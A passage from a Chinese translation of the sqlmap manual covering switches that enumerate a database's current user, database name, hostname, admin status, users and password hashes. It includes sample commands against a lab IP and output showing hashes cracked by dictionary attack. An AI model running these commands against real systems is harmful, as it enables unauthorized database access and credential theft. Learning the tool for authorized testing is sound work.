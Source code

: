 > 开关 --current-user

通过这个开关，可能检索出数据库管理系统的当前用户。

#### **3.9.4 当前数据库**

> 开关 --current-db

通过此开关，可以检索Web应用程序连接到的数据库管理系统的数据库名称。

#### **3.9.5 服务器主机名**

> 开关 --hostname

使用此开关可以列举数据库管理系统的主机名。

例如MySQL目标：
```
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --hostname
```
部分结果
```
[...]
[xx:xx:04] [INFO] fetching server hostname
[xx:xx:04] [INFO] retrieved: debian-5.0-i386
hostname:    'debian-5.0-i386'
```
#### **3.9.6 检测当前用户是否是管理员**

> 开关 --is-dba

可以检测当前数据库管理系统会话用户是否是数据库管理员（也称为DBA）。如果是，sqlmap则返回True ，反之亦然False。

#### **3.9.7 列出数据库管理用户**

> 开关 --users

如果当前用户有读取包含有关DBMS用户信息的系统表的权限时，可以枚举用户列表。

#### **3.9.8 列举并破解数据库管理系统用户密码Hash值**

> 开关 --passwords

如果当前用户有读取包含有关DBMS用户信息的系统表的权限时，可以枚举每个用户的密码哈希值。sqlmap将首先枚举用户，然后针对每个用户使用不同的密码哈希。

下面是针对PostgreSQL目标的示例：
```
python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
```
部分结果：
```
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt] 
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```
sqlmap不仅枚举了用户及其密码hash，而且还会识别hash格式，询问用户是否用字典文件破解出明文密码。这个功能已经在所有可以枚举用户密码的DBMS中实现。